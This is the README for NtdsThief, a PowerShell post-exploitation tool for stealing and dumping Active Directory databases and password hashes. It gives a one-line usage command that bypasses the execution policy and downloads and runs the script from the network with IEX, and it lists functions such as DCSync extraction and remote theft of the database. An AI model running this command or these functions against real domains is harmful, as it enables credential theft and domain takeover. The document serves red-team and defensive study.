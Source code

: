 # NtdsThief

NtdsThief is a PowerShell tool to exploit Active Directory database after compromising a Windows domain.

## Usage

To run on a machine, start PowerShell and then load the module:

```
PS C:\> powershell -EP bypass; IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tmenochet/NtdsThief/master/NtdsThief.ps1')
```

## Functions

```
Invoke-DCSync                   -   extracts domain accounts from Active Directory, including password hashes
Get-NtdsDatabase                -   steals Active Directory database remotely
Dump-NtdsDatabase               -   dumps domain accounts from an Active Directory database, including password hashes
Mount-NtdsDatabase              -   mounts an Active Directory database as a local LDAP server
Invoke-LdapSearch               -   searchs for domain objects in a mounted Active Directory database
```

## Credits

* https://blog.netspi.com/getting-started-wmi-weaponization-part-4/
* https://github.com/MichaelGrafnetter/DSInternals
